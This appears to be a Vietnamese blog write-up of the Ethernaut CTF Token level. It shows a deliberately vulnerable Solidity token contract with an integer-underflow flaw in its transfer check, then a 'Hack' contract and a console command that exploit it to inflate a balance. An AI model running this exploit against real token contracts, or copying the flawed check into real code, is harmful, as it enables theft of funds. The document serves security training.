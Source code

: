 ```yaml
---
title: "[Ethernaut CTF] Level 5: Token"
date: 2023-10-01 10:40:00 +0800
categories: [Blockchain, Ethereum]
tags: [Blockchain, Solidity, Ethereum, CTF]
published: true
image:
 path: https://ethernaut.zeppelin.solutions/imgs/BigLevel5.svg
---
```

# Level 5: Token
## ★★☆☆☆
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
## Phân tích
- Chúng ta được gợi ý về odometer, vậy odometer là gì ?
- Odometer ở đây ý là đồng hồ đo số km trên xe, nếu vượt quá mức limit được cài sẵn thì nó tự reset về 0. -> cho ta gợi ý về overflow
- Chúng ta đều biết về lỗi ``overflow`` là hiện tượng tràn số khi khi tính toán số lớn hơn giá trị max của kiểu dữ liệu đã khao báo. Nhưng trong challenge này ta sẽ gặp ``underflow``, tương tự như ``overflow``, ``underflow`` chỉ là tràn số khi dưới min và được reset trở lại giá trị max .

- Để ý trong function transfer ta có:
```javascript
    require(balances[msg.sender] - _value >= 0);
```
- Ta thấy nếu như balance >= value thì đương nhiên trả về luôn là true, còn nếu như balance < value thì khi balance - value sẽ xảy ra hiện tượng ``underflow``


## Solution
**Target**: làm cho số token trong balance càng lớn càng tốt.  
- Ta kiểm tra balance và thấy có 20 token -> ta cần transfer vào 21 token để trigger hiện tượng ``underflow``

```javascript
await contract.balanceOf(player).then(x => x.toString())
20

```
Một contract đơn giản để tranfer trên remix:
```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >0.6.3;

interface IToken {
    function balanceOf(address) external view returns (uint256);
    function transfer(address to, uint256 value) external returns (bool);
}

contract Hack {
    constructor(address _target) {
        IToken(_target).transfer(msg.sender, 21);
    }
}
```
hoặc bạn có thể dùng lệnh sau trên console:
```javascript
contract.transfer(player, 21)
```
**Check lại balance** -> Done




